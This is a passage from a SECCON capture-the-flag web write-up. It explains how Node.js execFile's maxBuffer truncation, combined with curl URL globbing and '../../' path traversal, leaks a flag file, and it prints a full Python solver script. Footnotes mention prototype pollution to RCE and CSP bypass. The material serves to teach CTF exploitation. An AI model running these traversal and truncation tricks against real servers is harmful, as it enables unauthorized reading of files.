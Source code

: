 It causes an error and the `stdout` of the error object is a prefix of the file content.

[Noje.js docs](https://nodejs.org/dist/latest-v19.x/docs/api/child_process.html#child_processexecfilefile-args-options-callback) says the following for `maxBuffer` option of `execFile`:

> `maxBuffer` `<number>`: Largest amount of data in bytes allowed on stdout or stderr. If exceeded, the child process is terminated and any output is truncated. See caveat at maxBuffer and Unicode. Default: 1024 * 1024.

So, with this specification, making `"SECCON{...}".slice(0, -1)` as a result of curl execution is to steal a flag. In fact, it is possible using URL globbing of curl. See the following Solver section.

### Solver

```python
import os
import re
import subprocess

BASE_URL = f"http://{os.getenv('SECCON_HOST')}:{os.getenv('SECCON_PORT')}"


def curl(files: list[str]) -> bytes:
    proc = subprocess.run(
        [
            "curl",
            "--globoff",
            "--path-as-is",
            BASE_URL + "/../../{" + ",".join(files) + "}",
        ],
        capture_output=True
    )
    assert proc.returncode == 0
    return proc.stdout


files = [
    "bin/tar",
    "bin/sed",
    "bin/gunzip",
    "app/package.json",
    "app/package.json",
    "app/package.json",
    "app/package.json",
    "app/package.json",
]

assert len(curl(files)) < 1024 * 1024
assert len(curl(files)) == 1048467

for i in range(1000):
    flag_file = "/"*i + "flag.txt"
    stdout = curl(files + [flag_file]).decode()
    if stdout == "🤔":
        continue
    else:
        print(f"{i = }")
        print(re.search(r"SECCON{\w+", stdout).group(0) + "}")
        exit(0)
print("Failed")
```


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell